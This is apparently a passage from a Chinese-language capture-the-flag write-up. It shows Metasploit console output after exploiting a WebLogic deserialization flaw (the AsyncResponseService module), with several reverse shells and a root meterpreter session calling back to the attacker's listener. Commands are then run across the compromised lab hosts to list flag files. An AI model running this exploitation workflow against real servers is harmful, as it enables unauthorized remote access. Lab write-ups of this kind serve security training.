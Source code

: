 详细内容如下, 这里我既感到欣喜, 因为一个下午不断重复实验终于有了最正确的输出, 又感到悲凉, 怎么会输出这么多 flag 啊 ! 还要一个一个地试 ( 原因就是我前面有细节没处理好, 重复实验过程太多了, Metasploit 的 workspace 都创建了三个 ... ), 但不管了, 阶段性的胜利就在眼前, 冲 :

```shell
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:44122 (192.168.5.132)
  2         meterpreter x86/linux  root @ 192.175.84.4  192.168.5.135:4433 -> 192.168.5.132:39960 (192.168.5.132)
  3         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:60884 (192.175.84.2)
  4         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:39274 (192.175.84.3)
  5         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:54988 (192.175.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -c "ls /tmp" -i 3,4,5
[*] Running 'ls /tmp' on shell session 3 (192.175.84.2)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh0ca4b9ab-1118-4e1f-a869-47d47e1b9d16}
flag-{bmh3267040b-cd84-4d6e-b9d9-1cd1765f3f4b}
flag-{bmh4b8fb732-c18a-4966-ab90-221754a268f4}
flag-{bmh6abbfaaf-608b-4bf2-885f-e701b18845a8}
flag-{bmh9bfc0cdf-07d9-42d5-85f2-9ff63acac3fa}
flag-{bmha6b94bb2-883b-4793-a748-ec62e7291c3c}
flag-{bmhbf1384fc-0cb8-4b3d-9016-2da6fda8fb18}
flag-{bmhc8910e6c-e2a4-47b2-a362-491dcc6de8a6}
flag-{bmhdc78a69c-0ed6-4940-a836-181167bda07c}
hsperfdata_root
packages
wlstTemproot

[*] Running 'ls /tmp' on shell session 4 (192.175.84.3)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh0d5d1376-045a-464c-9177-cf73f8ff5970}
flag-{bmh1433f21c-0208-4262-bc95-593762bfcf45}
flag-{bmh222b0814-c02d-4b6a-b40e-427bd7ff256b}
flag-{bmh2285f31b-986d-4931-ab9a-2e21589c0256}
flag-{bmh35aa9186-6ade-46e7-ba61-8060ba39efe9}
flag-{bmh608bca2c-f469-4191-a73a-090ef6743e2b}
flag-{bmha7d2f38a-df5e-44ea-bd05-eda85d183645}
flag-{bmhb7d0ef83-ed19-4fb0-92b9-b7caaae3e543}
flag-{bmhe40f8b12-1dc0-43df-a053-c2706abdcfab}
hsperfdata_root
packages
wlstTemproot

[*] Running 'ls /tmp' on shell session 5 (192.175.84.5)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh3da94f23-4b48-4d3d-a2aa-147094680dd3}
flag-{bmh47cc435c-13fe-4fd2-a7ce-7c8149d769de}
flag-{bmh588f84b3-bfbe-4236-ba7e-8c5b9710244a}
flag-{bmh797860cb-3884-4146-a5e5-99339995d662}
flag-{bmh82c89f3e-2350-4a11-8b7c-6655ea7849c1}
flag-{bmhaf3b231c-ea3c-4493-a378-ac2db96fcca8}
```